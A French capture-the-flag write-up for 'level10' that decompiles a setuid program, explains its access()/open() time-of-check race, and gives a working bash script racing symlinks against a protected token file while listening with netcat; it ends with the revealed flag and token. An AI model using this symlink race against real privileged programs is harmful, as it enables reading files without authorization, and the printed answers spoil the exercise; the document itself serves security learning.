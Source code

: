 # [level10]

### Observations

##### Je décompile le programme '~/level10':
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	int				*v3;
	char			*v4;
	const char		*v6;
	const char		*v7;
	int				v8;
	int				v9;
	size_t			v10;
	char			buf[4096];
	struct sockaddr	addr;
	unsigned int	v13;

	v13 = __readgsdword(0x14u);
	if ( argc <= 2 )
	{
		printf("%s file host\n\tsends file to host if you have access to it\n", *argv);
		exit(1);
	}
	v6 = argv[1];
	v7 = argv[2];
	if ( access(v6, 4) )
		return printf("You don't have access to %s\n", v6);
	printf("Connecting to %s:6969 .. ", v7);
	fflush(stdout);
	v8 = socket(2, 1, 0);
	*(_DWORD *)&addr.sa_data[6] = 0;
	*(_DWORD *)&addr.sa_data[10] = 0;
	addr.sa_family = 2;
	*(_DWORD *)&addr.sa_data[2] = inet_addr(v7);
	*(_WORD *)addr.sa_data = htons(0x1B39u);
	if ( connect(v8, &addr, 0x10u) == -1 )
	{
		printf("Unable to connect to host %s\n", v7);
		exit(1);
	}
	if ( write(v8, ".*( )*.\n", 8u) == -1 )
	{
		printf("Unable to write banner to host %s\n", v7);
		exit(1);
	}
	printf("Connected!\nSending file .. ");
	fflush(stdout);
	v9 = open(v6, 0);
	if ( v9 == -1 )
	{
		puts("Damn. Unable to open file");
		exit(1);
	}
	v10 = read(v9, buf, 0x1000u);
	if ( v10 == -1 )
	{
		v3 = __errno_location();
		v4 = strerror(*v3);
		printf("Unable to read from file: %s\n", v4);
		exit(1);
	}
	write(v8, buf, v10);
	return puts("wrote file!");
}
```

##### Détails du programme:
```bash
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
```

##### Entrées du programme:
```c
char *chemin_fichier
char *addresse_ip
```

##### Fonctionnement:
Le programme vérifie si le chemin_fichier est accessible par l'utilisateur à l'aide de la fonction access. \
Puis se connecte à un serveur avec l'addresse_ip pour par la suite ouvrir le fichier avec la fonction open.

> Le serveur est hébergé sur le port '6969'.

##### Conclusions:
L'ordre d'exécution des fonctions créé une faille qui nous permet de modifier le fichier pointant à la fin du chemin_fichier pendant la connection. \
Cette opération leurre la fonction open sur le fait que nous avons les droits sur ce fichier dû au fait que la fonction access retient les drois d'ouverture.

### Résolution
Je créé un script qui effectue trois opérations distinctes en parallele.

 1. La premiere consiste en une boucle qui créé un lien symbolique vers un fichier accessible par l'utilisateur \
 pour ensuite le modifier vers un fichier innaccessible par l'utilisateur.

 2. La seconde est composée d'une boucle qui exécute le programme '~/level10' tout en pointant sur le lien symbolique \
 créé et modifié par la boucle de l'opération précédente.

 3. La dernière est une simple boucle qui récupère les données circulant sur le port réseau 6969 et affiche le resultat \
 quand ce n'est pas le contenu du fichier accessible (soit le programme).

Il ne me reste plus qu'a lui donner les droits d'exécution et de l'exécuter pour avoir mon flag.

##### /tmp/script.sh :
```bash
#! /bin/bash

rm -rf /tmp/done

link_breaker()
{
	while [ ! -f "/tmp/done" ];
	do
		ln -nsf /home/user/level10/level10 /tmp/link
		ln -nsf /home/user/level10/token /tmp/link
	done
}

listen_to_serv()
{
	while [ ! -f "/tmp/done" ];
	do
		TOK="$(nc -ln 6969)"
		[[ "$TOK" !=  *ELF* ]] && echo "$TOK" && touch /tmp/done
	done
}

exec_loop()
{
	while [ ! -f "/tmp/done" ];
	do
		/home/user/level10/level10 /tmp/link "127.0.0.1" >/dev/null
	done
}

exec_loop&
listen_to_serv&
link_breaker&

wait

```

#### commandes:
```bash
chmod +x /tmp/script.sh
/tmp/script.sh
```

**flag :** woupa2yuojeeaaed06riuj63c

**token :** feulo4b72j7edeahuete3no7c
